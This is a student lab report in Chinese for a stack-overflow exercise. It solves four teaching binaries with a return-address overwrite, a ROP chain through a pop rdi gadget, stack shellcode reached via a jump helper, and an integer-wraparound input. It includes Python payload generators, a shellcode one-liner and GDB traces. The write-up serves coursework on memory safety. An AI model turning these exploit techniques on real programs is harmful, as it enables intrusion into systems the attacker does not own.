



# 栈溢出攻击实验
姓名：孙炜杰   
学号：2024201578   

## 题目解决思路


### Problem 1: 
- **分析**：通过对 `problem1` 的反汇编分析，发现该二进制文件存在典型的缓冲区溢出漏洞。漏洞主要集中在 `func` 函数对 `strcpy` 的不安全调用。   
1. **寻找目标函数：** 在汇编中存在一个名为 `func1` 的函数（地址：0x401216），其逻辑为调用 `puts` 输出目标字符串`Yes!I like ICS!` 并退出。我们的目标是劫持程序流跳转到此处。
```c
0000000000401216 <func1>:
  401216: f3 0f 1e fa           endbr64
  40121a: 55                    push   %rbp
  40121e: bf 04 20 40 00        mov    $0x402004,%edi  // 字符串地址
  401223: e8 98 fe ff ff        call   4010c0 <puts@plt>
```

2. **定位漏洞函数：** `func`函数（地址：0x401232）开辟了栈帧，并使用了 strcpy。
```c
0000000000401232 <func>:
  40123a: 48 83 ec 20           sub    $0x20,%rsp      // 开辟栈空间
  40123e: 48 89 7d e8           mov    %rdi,-0x18(%rbp)// 保存输入源地址
  401246: 48 8d 45 f8           lea    -0x8(%rbp),%rax // 缓冲区起始位置在 rbp-0x8
  401250: e8 5b fe ff ff        call   4010b0 <strcpy@plt> // 溢出点
```
  由指令 `lea -0x8(%rbp), %rax` 可知，目的缓冲区在栈上的起始地址距离栈底指针 %rbp 仅有 8 字节。`strcpy` 函数在复制过程中不检查数据长度，直到遇到 `\0` 为止，可由此构造攻击 payload。

3. **计算偏移量（Offset）：** 在 x86-64 架构下，函数返回地址存储在 `%rbp + 8` 的位置。
从缓冲区起始位（rbp-0x8）到栈底指针（rbp）：8 字节。
覆盖旧的栈底指针（Saved RBP）：8 字节。
总偏移 = 8 + 8 = 16 字节。 因此，输入的前 16 字节为填充数据，第 17-24 字节将覆盖 ret 指令弹出的返回地址。(注意小端)
- **解决方案**：构造 `payload` 需要满足三个条件：16 字节任意填充、目标函数 `func1` 的 64 位地址、且地址需符合 **小端序** 排列。
使用 Python 构造 Payload 如下：
```py
# solution_p1.py
import struct

# 1. 填充 16 字节到达返回地址位置 (8 字节 buffer + 8 字节 saved rbp)
padding = b'A' * 16 

# 2. 目标函数 func1 的地址: 0x401216
# 使用小端序包装成 8 字节 (64位地址)
target_addr = struct.pack("<Q", 0x401216) 

# 3. 组合 payload
payload = padding + target_addr

# 4. 写入文件 ans1.txt
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload generated: " + str(payload))
```
生成的二进制文件内容（十六进制表示）为： `41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 16 12 40 00 00 00 00 00`
- **结果**：执行命令 `./problem1 ans1.txt` 后，程序成功跳转并在退出前执行了 `func1`。



### Problem 2:
- **分析**：
1. **安全机制分析：** 根据 `README.md`，`Problem 2` 开启了 `NX` 保护。这意味着栈上的数据不再具有执行权限，无法像 `Problem 1` 那样通过跳转到栈地址，构造覆盖内容来执行自定义指令。因此，必须利用程序代码段中已有的代码片段（Gadgets）进行攻击。
2. **漏洞点判断：** 观察 `func` 函数（地址 0x401290）：
```py
0000000000401290 <func>:
  401298: 48 83 ec 20           sub    $0x20,%rsp
  4012a4: 48 8d 45 f8           lea    -0x8(%rbp),%rax  // 缓冲区起始于 rbp-0x8
  4012a8: ba 38 00 00 00        mov    $0x38,%edx       // 复制长度为 0x38 (56 字节)
  4012b3: e8 38 fe ff ff        call   4010f0 <memcpy@plt>
```
缓冲区位于 `rbp-0x8`，但 `memcpy` 却尝试写入 0x38 字节，导致栈溢出。覆盖返回地址需要 16 字节 的偏移（8 字节 buffer + 8 字节 saved rBP）。
3. **目标函数与参数校验：** 目标函数 `func2`（地址 0x401216）包含一个参数校验逻辑：
```c
0000000000401216 <func2>:
  401225: 81 7d fc f8 03 00 00  cmpl   $0x3f8,-0x4(%rbp) // 检查第一个参数是否为 0x3f8 (1016)
  40122c: 74 1e                 je     40124c <func2+0x36>
```
在 `x86-64` 架构下，函数第一个参数通过 `%rdi` 寄存器传递。因此，我们不能直接跳转到 `func2`，必须先将 `%rdi` 寄存器赋值为 0x3f8。
4. **寻找 Gadget：** 在反汇编结果中找到了一个专门预留的片段 pop_rdi：
```c
00000000004012bb <pop_rdi>:
  4012c7: 5f                    pop    %rdi  // 从栈顶弹出数据到 rdi
  4012c8: c3                    ret          // 弹出下一个地址并跳转
```
通过这个 `Gadget`，我们可以构造一个跳转执行链：先跳转到 `0x4012c7` 执行 `pop %rdi`（将栈上的 0x3f8 弹出给寄存器），紧接着的 `ret` 会控制程序跳转到 `func2`。
- **解决方案**：构造一个包含 `Gadget` 地址、参数值和目标函数地址的 `Payload`。
`Payload` 结构设计：
Padding (16 bytes): 填充缓冲区和 RBP。
Return Address 1 (8 bytes): pop_rdi; ret 的地址 (0x4012c7)。
Argument (8 bytes): 目标参数 0x3f8 (1016)。
Return Address 2 (8 bytes): func2 的地址 (0x401216)。

使用 Python 构造 Payload 如下：
```py
# solution_p2.py
import struct

# 1. 填充偏移
padding = b'A' * 16

# 2. Gadget: pop rdi; ret (注意直接跳到 0x4012c7 那个 pop 指令上)
pop_rdi_ret = struct.pack("<Q", 0x4012c7)

# 3. 参数: 0x3f8 (1016)
arg_val = struct.pack("<Q", 0x3f8)

# 4. 目标函数: func2
func2_addr = struct.pack("<Q", 0x401216)

# 组合 payload
payload = padding + pop_rdi_ret + arg_val + func2_addr

with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Problem 2 Payload 生成成功！")
```
- **结果**：执行 `./problem2 ans2.txt`，程序成功绕过 `NX` 保护并满足了参数校验条件，输出目标字符串。


### Problem 3: 
- **分析**：本问题的目标是使程序跳转到 `func1` 函数，并确保传入参数 `%rdi` 的值为 114（%rdi == 114）。通过对二进制文件和源代码的分析，存在以下关键点：
1. **漏洞判断：栈溢出** ：在 `func` 函数的反汇编中（objdump 结果）：
    - **缓冲区分配：** 指令 `sub $0x30, %rsp` 为局部变量开辟了空间。
    - **溢出点：** `memcpy` 被调用时，目标地址是栈上的缓冲区（rbp-0x20），而复制长度由用户控制（64字节）。
    - **偏移计算：** 由于缓冲区起始于 `rbp-0x20` (32字节)，覆盖到 `rbp` 需要 32 字节，再加上 rbp 自身的 8 字节，共需 40 字节 即可到达返回地址（Return Address）。
2. **攻击障碍与覆盖函数 `jmp_xs`**
    - **覆盖逻辑** ：由于开启了地址随机化，我们无法预知 Shellcode 在栈上的确切地址。
    - 关键函数分析：
```c
0000000000401334 <jmp_xs>:
  ...
  40133c: 48 8b 05 cd 21 00 00  mov 0x21cd(%rip), %rax  # 加载 saved_rsp 到 %rax
  401350: ff e0                 jmp *%rax               # 跳转至 %rax 指向的地址
```
`saved_rsp` 存储了 `func` 进入时的栈顶地址（即缓冲区起始位置）。通过覆盖返回地址为 `0x401334`，可以让程序自动跳转回栈空间执行代码，实现跳转。
- **解决方案**：利用 `jmp_xs` 作为实现跳转，在栈上布置 `Shellcode`。
  - Shellcode 设计:
    - 设计时需要在栈上执行以下逻辑，以满足 func1 的要求：
    - 1. 设置寄存器：`mov $0x72, %rdi` (机器码: \x48\xc7\xc7\x72\x00\x00\x00)。
    - 压栈地址：`push $0x401216` (机器码: \x68\x16\x12\x40\x00)，这是 `func1` 的首地址。
    - 返回跳转：`ret` (机器码: \xc3)，执行后程序会从栈上跳转回到到 func1。
  - Payload 结构布局：

| 偏移 | 大小 | 内容 | 作用 |
| --- | --- | --- | --- |
| `0-12` | 13 字节 | `Shellcode` | 修改 %rdi 并准备跳转至 func1 |
| `13-39` | 27 字节 | `b'A' * 27` | 填充缓冲区至 40 字节偏移 |
| `40-47` | 8 字节 | `\x34\x13\x40\x00...` | 覆盖返回地址为 `jmp_xs` (`0x401334`) |

  - 利用终端直接构造 txt 文件，命令如下：
```bash
python3 -c "import sys; sys.stdout.buffer.write(b'\x48\xc7\xc7\x72\x00\x00\x00\x68\x16\x12\x40\x00\xc3' + b'A'*27 + b'\x34\x13\x40\x00\x00\x00\x00\x00')" > ans3.txt
```
- **GDB 调试过程 (Debugging Process)：**
通过 GDB 验证攻击流的完整性：
1. **执行至跳转点**：
在 `jmp_xs` 的跳转指令 `0x401350` 处设置断点。运行 `r ans3.txt` 后，程序停在 `jmp *%rax`。此时检查 `%rax` 的值：
```c
(gdb) p /x $rax
$1 = 0x7fffffffda90  # 该地址即为栈上缓冲区起始位置
```
2. **进入栈空间**：
执行 `si` (Step Instruction)，程序流进入栈地址 `0x7fffffffda90`。开启汇编显示：
```c
(gdb) display /3i $pc
1: x/3i $pc
=> 0x7fffffffda90: mov $0x72, %rdi
   0x7fffffffda97: push $0x401216
   0x7fffffffda9c: ret
```
3. **寄存器验证**：
* 执行 `mov` 指令后，输入 `i r rdi`。结果显示 `rdi 0x72 114`，参数注入成功。
* 执行 `ret` 指令后，程序成功跳转至 `0x401216` (`func1`)。

- **结果**：
在 GDB 环境中继续运行（`continue`），程序识别到寄存器 `%rdi` 为正确的幸运数字 `114`，实现输出幸运数字。



### Problem 4:
- **分析**：
1. **Stack Canary 保护机制**：
本关卡通过反汇编代码可以确认开启了 Stack Canary（栈金丝雀）保护。在 func 函数的入口（0x136c）和出口（0x140e），程序通过 %fs:0x28 设置了栈随机保护值（Canary）。
```c
140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
1417: 74 05                   je     141e <func+0xc1>
1419: e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>
```
* **初始化（0x136c）**：在函数中，程序通过 `mov %fs:0x28, %rax` 从局部存储中获取一个随机的 8 字节 Canary 值，并将其放置在 `rbp-0x8` 的位置，紧邻函数的返回地址。
* **检验与拦截（0x140e）**：在函数返回前，程序执行 `sub %fs:0x28, %rax`。如果攻击者试图通过栈溢出覆盖返回地址，必然会破坏这个随机值。一旦校验失败，程序将调用 `__stack_chk_fail` 立即终止，从而有效拦截了传统的缓冲区溢出攻击。

2. **核心逻辑逆向**：
目标是触发 `13fb` 处的 `call 131c <func1>`。通过逆向发现，程序使用 `jae` 指令（`13ad`）进行无符号比较。
**A. 无符号范围校验**
程序通过 scanf 读取用户输入至 -0x18(%rbp)，并在 13aa 处将其与常数 0xfffffffe 进行比较：
```c
13aa: 3b 45 f0                cmp    -0x10(%rbp),%eax  # 比较输入值与 0xfffffffe
13ad: 73 11                   jae    13c0 <func+0x63>  # 无符号大于等于则跳转
```
这里使用了 jae 指令。如果输入较小的正整数（如 100），无符号比较会失败。要通过此检查，输入必须在无符号视角下是一个极大值（即负数的补码）。由于其比较对象是 `-2`（补码 `0xfffffffe`），在无符号语境下这是一个极大的数值。输入 `-1`（补码 `0xffffffff`）在无符号视角下大于该值，从而通过第一层检查。
**B. 循环减法陷阱**
程序在校验后进入一个长达 `0xfffffffe` 次的递减循环（`13c9`）：`subl $0x1, -0x18(%rbp)`。
```c
13c9: 83 6d e8 01             subl   $0x1,-0x18(%rbp)  # 关键：每次减 1
13cd: 83 45 ec 01             addl   $0x1,-0x14(%rbp)  # 计数器增加
13d1: 8b 45 ec                mov    -0x14(%rbp),%eax
13d4: 3b 45 f0                cmp    -0x10(%rbp),%eax  # 循环 42.9 亿次
13d7: 72 f0                   jb     13c9 <func+0x6c>
```
3. **漏洞利用设计：整数回绕**
最终通关需要同时满足两个强制条件：
  - 残值校验 (13d9)：循环结束时，输入值经过连续减法后必须等于 1。
  - 原始输入校验 (13df)：代码显式要求原始输入必须等于 -1 (0xffffffff)。
数学推导过程：当输入为 -1 时，其在内存中的 32 位补码为 $0xffffffff$。根据无符号比较原理：$0xffffffff > 0xfffffffe$，通过第一层 jae 检查。循环执行减法操作，执行次数为 $0xfffffffe$（即 $4,294,967,294$ 次）。最终结果 $R$ 计算如下：$$R = 0xffffffff - 0xfffffffe = 0x00000001$$结果恰好为 1，完美契合 `cmpl $0x1, -0x18(%rbp)`。

* **解决方案**：
由于本题是逻辑层面的整数溢出，攻击 Payload 即为输入的整数值。
* **Payload**：`-1`（或其无符号等价值 `4294967295`）
* **gdb 验证**：
```c
# 确定基地址并设置偏移断点验证 rax 状态
(gdb) b *0x55555555538e  # 输入后的第一处检查
(gdb) c
# 输入 -1 后查看寄存器
(gdb) i r rax
rax            0xffffffff  4294967295  # 确认极大无符号数已加载

# 模拟循环结束后的状态（加速调试，绕过耗时计算）
(gdb) b *0x5555555553d9  # 循环后的校验点
(gdb) set $rax = 1
(gdb) set {int}($rbp - 0x18) = 1
(gdb) c
```

* **结果**：
程序绕过了 Canary 检查和循环逻辑校验，成功进入目标函数并输出：
`great! I will give you great scores`



## 思考与总结
通过多个 Problem 的分析与复盘，我从底层硬件执行和程序逻辑安全两个维度获得了深刻理解。
1. 内存布局与控制流的掌控：实验的核心是对 x86_64 架构下栈空间的掌握。在前面的题目中，通过计算局部变量缓冲区到返回地址的偏移量，我掌握了如何通过缓冲区溢出改写程序的执行流。
2. 现代安全防御机制的原理与局限：实验中涉及的防御技术展示了系统安全的演进：
   - Stack Canary：通过在局部变量与返回地址之间插入随机生成的检查值（Cookie），强制程序在函数退出前进行检验。
   - PIE（地址随机化）：通过动态加载基地址，使得硬编码的跳转目标失效。
这些机制虽然极大提高了攻击门槛，但通过 Problem 4 的实践我发现，攻击的点还可以转向程序逻辑。
3. 数据类型歧义带来的安全隐患：在分析 func 函数时，指令 jae 与补码 0xffffffff 的比较容易带来漏洞。在 C 语言被视为 -1 的变量，在 CPU 执行无符号比较时被解读为 $2^{32}-1$。
4. 调试工具在底层研究中的必要性：实验过程中，gdb发挥不可或缺作用。不仅可以查看需要的隐藏数值，还可以设定寄存器或运行函数

## 参考资料
- Bryant, R. E., & O'Hallaron, D. R. (2015). Computer Systems: A Programmer's Perspective (3rd Edition). 重点参考了关于机器级程序表示、补码运算的章节。
- GDB Documentation (sourceware.org). 查阅了关于动态调试、内存映射查看及寄存器实时修改的操作规范。
